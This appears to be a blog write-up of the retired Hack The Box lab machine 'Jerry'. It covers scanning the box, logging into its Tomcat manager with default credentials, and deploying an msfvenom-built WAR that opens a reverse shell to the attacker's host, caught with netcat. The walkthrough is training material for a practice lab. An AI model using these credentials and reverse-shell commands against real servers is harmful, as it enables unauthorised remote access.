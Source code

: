 ```yaml
---
layout: post
title: Hack The Box - Jerry
categories: hack-the-box
image: hackthebox/jerry/0.png
redirect_from: "/HackTheBox-Jerry/"
---
```


<hr>
#### Jerry has retired and this is my write-up about it...
<br>
#### Jerry was one of the easiest boxes on HTB. It was a beginner-box . 
#### It's a windows box and its ip is 10.10.10.95
![](/images/hackthebox/jerry/0.png)
<hr>
<br>
#### Starting with nmap to scan for tcp ports and services :
`nmap -sV -sT 10.10.10.95`
![](/images/hackthebox/jerry/1.jpg)
<hr>
<br>
#### We can see that the port 8080 is open and running http and the server is Apache Tomcat.
#### By visiting it in the browser we get the default tomcat configuration page.
![](/images/hackthebox/jerry/2.png)
<hr>
<br>
#### There's a manager app so let's try to access it .
![](/images/hackthebox/jerry/3.png)
<hr>
<br>
#### It asks for authentication and common passwords like those mentioned below didn't work:
*tomcat:tomcat* <br>
*admin:admin* <br>
*admin:password* <br>
*user:password* <br>
#### So by closing the login panel it causes an error because we are not authorized to view the manager page
#### But by looking at the error page :
![](/images/hackthebox/jerry/4.png)
<hr>
<br>
#### It shows these credentials :
*tomcat:s3cret*
#### This seems to be a part of the documentation and those credentials are dafault credentials.
#### Will they work ? yup !
![](/images/hackthebox/jerry/5.png)
![](/images/hackthebox/jerry/6.png)
<hr>
<br>
## Exploitation
#### Now we are logged in to the manager app and we can get a shell from here
<br>
#### We are on an apache tomcat server and apache tomcat uses WAR files.
#### To get a reverse shell we will use msfvenom to create the payload :
<br>
`msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.xx.xx LPORT=4449 -f war > backdoor.war`
![](/images/hackthebox/jerry/7.jpg)
<br>
#### Then we will upload our payload to the server.
![](/images/hackthebox/jerry/8.jpg)
![](/images/hackthebox/jerry/9.jpg)
<br>
#### Then we will listen to the port with netcat :
<br>
`nc -lvnp 4449`
<hr>
<br>
#### Now we got a reverse shell as admin so there's no need for previlege escalation.

![](/images/hackthebox/jerry/10.jpg)
<br>
<br>
![](/images/hackthebox/jerry/11.jpg)
<br>
<br>
![](/images/hackthebox/jerry/12.jpg)
<br>
<hr>
#### Another way to do this is to use this tool written by **mgeeky** [TomcatWarDeployer](https://github.com/mgeeky/tomcatWarDeployer) to automate the process of getting a shell
![](/images/hackthebox/jerry/13.jpg)
<br>
#### And that was Jerry . 
#### Feedback is appreciated :D
<br>
#### Thanks for reading .
<br>
<hr>
